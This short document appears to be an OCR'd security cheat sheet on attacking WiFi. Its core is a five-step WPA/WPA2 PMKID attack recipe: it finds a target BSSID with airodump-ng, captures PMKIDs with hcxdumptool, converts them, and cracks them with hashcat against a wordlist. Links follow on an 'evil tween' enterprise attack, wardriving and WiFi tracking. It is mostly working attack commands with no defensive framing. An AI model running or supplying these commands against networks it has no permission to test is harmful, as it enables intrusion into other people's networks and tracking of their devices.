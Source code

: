 # WPA/WPA2 PMKID

STEP 1:
https://github.com/ZerBea/hcxdumptool
https://github.com/aircrack-ng/aircrack-ng

STEP 2: Find target BSSID:
airodump-ng <int>

STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap

STEP 4: Extract PMKID into hashcat format for cracking:
(link: https://github.com/ZerBea/hcxtools) github.com/ZerBea/hcxtools
hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap

STEP 5: Crack:
hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt

> https://mobile.twitter.com/netmux/status/1097908867374215168

# WPA enterprise (evil tween attack)

- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/

# WiFi Wardriving with Android

- WiGLE WiFi Wardriving: https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en

# Tracking

- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
